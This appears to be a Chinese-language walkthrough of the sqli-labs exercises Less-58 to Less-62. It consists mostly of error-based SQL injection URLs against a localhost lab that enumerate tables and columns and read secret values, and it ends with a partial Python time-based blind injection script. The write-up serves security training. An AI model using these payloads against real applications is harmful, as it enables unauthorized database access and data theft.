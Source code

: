 `http://127.0.0.1/sqli/less-58/?id=1' and extractvalue(1,concat(0x25,(select secret_LQOC from pg5r7v7b4r),0x25))--+`

***

**Less-59**

id无闭合，同上一关

`http://127.0.0.1/sqli/less-59/?id=1 and extractvalue(1,concat(0x25,(select table_name from information_schema.tables where table_schema='CHALLENGES')))--+`

`http://127.0.0.1/sqli/less-59/?id=1 and extractvalue(1,concat(0x25,(select column_name from information_schema.columns where table_name='sd9a8g0soe' limit 2,1),0x25))--+`

`http://127.0.0.1/sqli/less-59/?id=1 and extractvalue(1,concat(0x25,(select secret_DVPW from sd9a8g0soe),0x25))--+`

***

**Less-60**

("$id")闭合

`http://127.0.0.1/sqli/less-60/?id=1") and extractvalue(1,concat(0x25,(select table_name from information_schema.tables where table_schema='CHALLENGES'),0x25))--+`

`http://127.0.0.1/sqli/less-60/?id=1") and extractvalue(1,concat(0x25,(select column_name from information_schema.columns where table_name='xo7c1hm38d' limit 2,1),0x25))--+`

`http://127.0.0.1/sqli/less-60/?id=1 and extractvalue(1,concat(0x25,(select secret_YJII from xo7c1hm38d),0x25))--+`

***

**Less-61**

闭合为(('$id'))

`http://127.0.0.1/sqli/less-61/?id=1')) and extractvalue(1,concat(0x25,(select table_name from information_schema.tables where table_schema='CHALLENGES'),0x25))--+`

`http://127.0.0.1/sqli/less-61/?id=1')) and extractvalue(1,concat(0x25,(select column_name from information_schema.columns where table_name='gfmtwwxgwf'),0x25))`

`http://127.0.0.1/sqli/less-61/?id=1')) and extractvalue(1,concat(0x25,(select secret_4KX6 from gfmtwwxgwf),0x25))--+`

***

**Less-62**

![](https://upload-images.jianshu.io/upload_images/11356161-5c1d63d198b84454.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

看到这个次数我是绝望的

进行延时注入：

脚本：

```python
import requests,string

payload = string.lowercase+string.digits
lenth = 0
result = ''

for i in range(1,15):
    try:
        url = "http://127.0.0.1/sqli/less-62/?id=1') and if(length((select table_name from information_schema.tables where table_schema='CHALLENGES'))='"+str(i)+"',sleep(5),1)--+"
        r = requests.get(url, timeout=5)
    except:
        lenth = i
```